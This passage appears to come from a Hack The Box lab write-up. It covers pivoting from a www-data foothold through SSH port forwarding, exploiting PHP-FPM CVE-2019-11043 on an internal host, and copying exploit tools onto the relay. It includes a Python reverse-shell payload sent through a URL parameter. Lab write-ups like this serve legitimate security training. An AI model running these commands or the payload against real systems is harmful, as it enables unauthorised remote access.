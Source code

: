 ![][pki-domain]

It is accessible from `eth1` to the user www-data:

```bash
ip address
# eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
#         inet 192.168.254.2  netmask 255.255.255.0  broadcast 192.168.254.255
#         ether 02:42:c0:a8:fe:02  txqueuelen 0  (Ethernet)
#         RX packets 11570  bytes 1948661 (1.9 MB)
#         RX errors 0  dropped 0  overruns 0  frame 0
#         TX packets 17260  bytes 6873724 (6.8 MB)
#         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
wget http://192.168.254.3/
cat index.html
# batch mode: /usr/bin/ersatool create|print|revoke CN
```

It can also be forwarded:

```bash
ssh -p 2222 -i credentials/id_rsa.www-data -L 8080:192.168.254.3:80 www-data@10.10.10.246
```

More info:

```bash
wget -SO - http://192.168.254.3/
# HTTP request sent, awaiting response...
#   HTTP/1.1 200 OK
#   Server: nginx/1.14.0 (Ubuntu)
#   Date: Sun, 07 Nov 2021 17:05:58 GMT
#   Content-Type: text/html; charset=UTF-8
#   Transfer-Encoding: chunked
#   Connection: keep-alive
#   X-Powered-By: PHP/7.1.33dev
# Length: unspecified [text/html]
```

And `7.1.33` has a [RCE vulnerability][cve-2019-11043]! We'll exploit it from
`www-data@192.168.254.2`.

First step is to equip the relay:

```bash
scp -i credentials/id_rsa.www-data -P 2222 www/exploit.py www-data@10.10.10.246:/tmp
scp -i credentials/id_rsa.www-data -P 2222 www/rshell.py www-data@10.10.10.246:/tmp
scp -i credentials/id_rsa.www-data -P 2222 www/nc www-data@10.10.10.246:/tmp
ssh -i credentials/id_rsa.www-data -p 2222 www-data@10.10.10.246
```

Where the payload is:

```python
import requests
payload = '/usr/bin/python3.6 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''
r = requests.get("http://192.168.254.3/index.php?a="+payload)
print(r.text)
```


[author-profile]: https://app.hackthebox.com/users/9631
[cve-2019-11043]: https://github.com/theMiddleBlue/CVE-2019-11043
[otphp]: https://github.com/lelag/otphp
[fixgz]: https://github.com/yonjar/fixgz
[phpinfo]: images/screenshots/phpinfo.png
[pki-domain]: images/screenshots/pki.png
[xdebug-rce]: https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec/